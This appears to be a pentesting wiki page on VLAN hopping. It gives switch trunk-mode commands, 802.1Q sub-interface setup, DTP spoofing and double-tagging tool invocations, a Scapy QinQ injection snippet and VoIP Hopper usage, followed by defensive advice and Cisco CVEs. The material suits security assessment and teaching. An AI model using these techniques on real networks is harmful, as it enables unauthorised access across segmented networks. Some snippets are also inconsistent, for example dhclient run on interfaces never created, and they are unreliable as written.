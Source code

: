 # Lateral VLAN Segmentation Bypass

If direct access to a switch is available, VLAN segmentation can be bypassed. This involves reconfiguring the connected port to trunk mode, establishing virtual interfaces for target VLANs, and setting IP addresses, either dynamically (DHCP) or statically, depending on the scenario (**for further details check [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)).**

Initially, identification of the specific connected port is required. This can typically be accomplished through CDP messages, or by searching for the port via the **include** mask.

**If CDP is not operational, port identification can be attempted by searching for the MAC address**:

```
SW1(config)# show mac address-table | include 0050.0000.0500
```

Prior to switching to trunk mode, a list of existing VLANs should be compiled, and their identifiers determined. These identifiers are then assigned to the interface, enabling access to various VLANs through the trunk. The port in use, for instance, is associated with VLAN 10.

```
SW1# show vlan brief
```

**Transitioning to trunk mode entails entering interface configuration mode**:

```
SW1(config)# interface GigabitEthernet 0/2
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode trunk
```

Switching to trunk mode will temporarily disrupt connectivity, but this can be restored subsequently.

Virtual interfaces are then created, assigned VLAN IDs, and activated:

```bash
# Legacy (vconfig) – still works but deprecated in modern kernels
sudo vconfig add eth0 10
sudo vconfig add eth0 20
sudo vconfig add eth0 50
sudo vconfig add eth0 60
sudo ifconfig eth0.10 up
sudo ifconfig eth0.20 up
sudo ifconfig eth0.50 up
sudo ifconfig eth0.60 up

# Modern (ip-link – preferred)
sudo modprobe 8021q
sudo ip link add link eth0 name eth0.10 type vlan id 10
sudo ip link add link eth0 name eth0.20 type vlan id 20
sudo ip link set eth0.10 up
sudo ip link set eth0.20 up
sudo dhclient -v eth0.50
sudo dhclient -v eth0.60
```

Subsequently, an address request is made via DHCP. Alternatively, in cases where DHCP is not viable, addresses can be manually configured:

```bash
sudo dhclient -v eth0.10
sudo dhclient -v eth0.20
```

Example for manually setting a static IP address on an interface (VLAN 10):

```bash
sudo ifconfig eth0.10 10.10.10.66 netmask 255.255.255.0
# or
sudo ip addr add 10.10.10.66/24 dev eth0.10
```

Connectivity is tested by initiating ICMP requests to the default gateways for VLANs 10, 20, 50, and 60.

Ultimately, this process enables bypassing of VLAN segmentation, thereby facilitating unrestricted access to any VLAN network, and setting the stage for subsequent actions.

---

## Other VLAN-Hopping Techniques (no privileged switch CLI)

The previous method assumes authenticated console or Telnet/SSH access to the switch.  In real-world engagements the attacker is usually connected to a **regular access port**.  The following Layer-2 tricks often let you pivot laterally without ever logging into the switch OS:

### 1. Switch-Spoofing with Dynamic Trunking Protocol (DTP)

Cisco switches that keep DTP enabled will happily negotiate a trunk if the peer claims to be a switch.  Crafting a single **DTP “desirable”** or **“trunk”** frame converts the access port into an 802.1Q trunk that carries *all* allowed VLANs.

*Yersinia* and several PoCs automate the process:

```bash
# Become a trunk using Yersinia (GUI)
sudo yersinia -G          # Launch GUI → Launch attack → DTP → enabling trunking

# Python PoC (dtp-spoof)
git clone https://github.com/fleetcaptain/dtp-spoof.git
sudo python3 dtp-spoof/dtp-spoof.py -i eth0 --desirable
```

Recon helper (passively fingerprint the port’s DTP state):

```bash
sudo modprobe 8021q
sudo ip link add link eth0 name eth0.30 type vlan id 30
sudo ip addr add 10.10.30.66/24 dev eth0.30
sudo ip link set eth0.30 up

# or

wget https://gist.githubusercontent.com/mgeeky/3f678d385984ba0377299a844fb793fa/raw/dtpscan.py
sudo python3 dtpscan.py -i eth0
```

Once the port switches to trunk you can create 802.1Q sub-interfaces and pivot exactly as shown in the previous section.

### 2. Double-Tagging (Native-VLAN Abuse)

If the attacker sits on the **native (untagged) VLAN**, a crafted frame with *two* 802.1Q headers can hop to a second VLAN even when the port is locked in access mode.  Tooling such as **VLANPWN DoubleTagging.py** (2022-2025 refresh) automates the injection:

```bash
python3 DoubleTagging.py \
        --interface eth0 \
        --nativevlan 1 \
        --targetvlan 20 \
        --victim 10.10.20.24 \
        --attacker 10.10.1.54
```

### 3. QinQ (802.1ad) Stacking

Many enterprise cores support *Q-in-Q* service-provider encapsulation.  Where permitted, an attacker can tunnel arbitrary 802.1Q-tagged traffic inside a provider (S-tag) to cross security zones.  Capture for ethertype `0x88a8` and attempt to pop the outer tag with Scapy:

```python
from scapy.all import *
outer = 100      # Service tag
inner = 30       # Customer / target VLAN
payload = Ether(dst="ff:ff:ff:ff:ff:ff")/Dot1Q(vlan=inner)/IP(dst="10.10.30.1")/ICMP()
frame = Dot1Q(type=0x88a8, vlan=outer)/payload
sendp(frame, iface="eth0")
```

### 4. Voice-VLAN Hijacking via LLDP/CDP (IP-Phone Spoofing)

Corporate access ports often sit in an *“access + voice”* configuration: untagged data VLAN for the workstation and a tagged voice VLAN advertised through CDP or LLDP-MED.  By impersonating an IP phone the attacker can automatically discover and hop into the VoIP VLAN—even when DTP is disabled.

*VoIP Hopper* (packaged in Kali 2025.2) supports CDP, DHCP options **176/242**, and full LLDP-MED spoofing:

```bash
# One-shot discovery & hop
sudo voiphopper -i eth0 -f cisco-7940

# Interactive Assessment Mode (passive sniff → auto-hop when VVID learnt)
sudo voiphopper -i eth0 -z

# Result: new sub-interface eth0.<VVID> with a DHCP or static address inside the voice VLAN
```

The technique bypasses data/voice separation and is extremely common on enterprise edge switches in 2025 because LLDP auto-policy is enabled by default on many models .

---

## Defensive Recommendations

1. Disable DTP on all user-facing ports: `switchport mode access` + `switchport nonegotiate`.
2. Change the native VLAN on every trunk to an **unused, black-hole VLAN** and tag it:  `vlan dot1q tag native`.
3. Prune unnecessary VLANs on trunks: `switchport trunk allowed vlan 10,20`.
4. Enforce port security, DHCP snooping, dynamic ARP inspection **and 802.1X** to limit rogue Layer-2 activity.
5. Disable LLDP-MED auto voice policies (or lock them to authenticated MAC OUIs) if IP-phone spoofing isn’t required.
6. Prefer private-VLANs or L3 segmentation instead of relying solely on 802.1Q separation.

---

## Real-World Vendor Vulnerabilities (2022-2024)

Even a perfectly hardened switch configuration can still be undermined by firmware bugs.  Recent examples include:

* **CVE-2022-20728† – Cisco Aironet/Catalyst Access Points** allow injection from the native VLAN into non-native WLAN VLANs, bypassing wired/wireless segmentation .
* **CVE-2024-20465 (Cisco IOS Industrial Ethernet)** permits ACL bypass on SVIs after toggling Resilient Ethernet Protocol, leaking traffic between VRFs/VLANs.  Patch 17.9.5 or later.

Always monitor the vendor advisories for VLAN-related bypass/ACL issues and keep infrastructure images current.

---

## References

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)
- VLANPWN attack toolkit – <https://github.com/casterbytethrowback/VLANPWN>
- Twingate "What is VLAN Hopping?" (Aug 2024) – <https://www.twingate.com/blog/glossary/vlan%20hopping>
- VoIP Hopper project – <https://github.com/hmgh0st/voiphopper>
- Cisco Advisory “cisco-sa-apvlan-TDTtb4FY” – <https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-apvlan-TDTtb4FY>

